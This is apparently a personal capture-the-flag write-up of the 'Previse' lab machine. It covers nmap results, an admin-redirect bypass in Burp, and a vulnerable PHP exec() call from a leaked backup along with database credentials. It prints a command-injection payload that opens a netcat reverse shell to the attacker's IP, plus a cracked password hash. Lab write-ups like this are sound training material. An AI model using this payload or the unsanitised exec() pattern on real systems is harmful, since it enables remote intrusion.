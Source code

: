 # Previse # 

## 1. Nmap 

~~~sql
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

~ We see that httponly is not set, so we could steal the admin pass with some simple XSS. We keep this in mind. Let's continue to Burp.. Burp doesn't seem to show anything special, besides the session cookie in the request which seems to always be the same : ==5jv8fbo6lush7c9d7kthnjc8bs== (Maybe because cache??)
~ We try to find more about this httponly flag, while running dirbuster in the background..

## 2. Dirbuster
~ We found a "nav.php" page which seems to belong to the admin, because it has the "create account" href.. We try and use that but we get redirected. We can just intercept the response in BURP and set the code of the page 200 instead of the 302 redirect.. BOOM we are logged in!!

## Web exploitation
~ Found a backup_site.zip. It contains all the code from the page.. We should be able to solve this without any help now. Following the log files, we know that the username of admin is "m4lwhere"

* From the zip file : *

		Sql Creds : 
			Name : root
			Password : mySQL_p@ssw0rd!:)
			Db : previse
	
	Intresting log file : 
	
~~~php
	<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");                                  
echo $output;                                                                                                     
                                                                                 
$filepath = "/var/www/out.log";                                                                                   
$filename = "out.log";                                                                                            
                                                                         
if(file_exists($filepath)) {                                                                                      
    header('Content-Description: File Transfer');                                                                 
    header('Content-Type: application/octet-stream');                                                             
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');                                
    header('Expires: 0');                                                                                         
    header('Cache-Control: must-revalidate');                                                                     
    header('Pragma: public');                                                                                     
    header('Content-Length: ' . filesize($filepath));                                                             
    ob_clean(); // Discard data in the output buffer                                                              
    flush(); // Flush system headers                                                                              
    readfile($filepath);                                                                                          
    die();                                                                                                        
} else {                                                                                                          
    http_response_code(404);                                                                                      
    die();
} 
?>
~~~

This dev used an "exec" php function to actually delim the log items so we can easily exploit that and get a reverse shell..let's try..
~~~sql
delim=comma%3b+nc+10.10.14.209+1234+-e+/bin/bash --- inside burp request
~~~ 

Played around the server and with the help of SQL creds we got the user hash... Unfortunately, I feel it will pe kinda hard for us to crack it.. : 
*  \$1\$🧂llol$DQpmdvnb7EeuO6UaqRItf. 

One thing which induced me in error was the salt emoji... I thought it was some kind of indication that the "llol$" part is actually just salt and I wasted some time with hashcat on this... I finally checked an writeup and it was just a trick.. I'm not good enough yet it seems... FUCK!!!! Anyhow, we cracked the password : ilovecody112235! (after 10 mins)


## 3. Privesc
Simple privesc in the end, exploiting the gzip binary along with adding a new PATH variable.
